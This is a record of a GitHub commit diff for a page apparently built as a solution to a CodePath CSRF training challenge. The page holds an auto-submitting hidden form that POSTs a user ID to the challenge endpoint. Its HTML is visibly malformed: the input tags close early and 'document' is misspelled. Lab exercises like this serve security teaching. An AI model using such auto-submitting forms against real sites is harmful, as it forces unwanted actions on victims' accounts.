

Before and after one commit to RyCeAoS/Codepath-redierction, a plain HTML site: page index.HTML in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.HTML

```diff
--- a/index.HTML
+++ b/index.HTML
@@ -1,5 +1,5 @@
 <form name = "csrfFrom" action="https://security.codepath.com/user/csrfchallengetwo/plusplus" method="POST">
-	<input> type="hidden" name="userId" value="exampleId" />
+	<input> type="hidden" name="userId" value="87fe041cca6a3e82e030eaf99d2567c51d056303" />
 	<input> type="submit"/>
 </form>
 <script> docuement.csrfFrom.submit(); </script>
```
